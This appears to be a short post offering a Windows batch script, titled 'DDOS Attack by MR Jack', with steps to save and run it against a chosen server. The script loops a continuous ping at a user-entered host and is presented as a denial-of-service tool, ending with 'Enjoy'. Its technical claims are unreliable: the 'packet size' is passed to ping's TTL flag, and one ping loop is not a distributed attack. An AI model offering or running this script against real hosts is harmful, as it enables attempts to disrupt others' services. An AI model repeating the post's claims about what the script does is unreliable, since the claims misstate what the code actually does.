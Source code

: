 1) copy paste the following code in to youre notepad
@echo off
mode 67,16
title DDOS Attack by MR Jack
color 0a
cls
echo.
echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ
echo DDOS With Batchfile
echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ
echo.
set /p x=Server-Target:
echo.
echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ
ping %x%
echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ
@ping.exe 127.0.0.1 -n 5 -w 1000 > nul
goto Next
:Next
echo.
echo.
echo.
set /p m=ip Host:
echo.
set /p n=Packet Size:
echo.
:DDOS
color 0c
echo Attacking Server %m%
ping %m% -i %n% -t >nul
goto DDOS
2) its a batch file so save it as whateveruwant.bat
3) run it and select the server target, the ip and how many packets you want to send to the server and then press enter

Enjoy


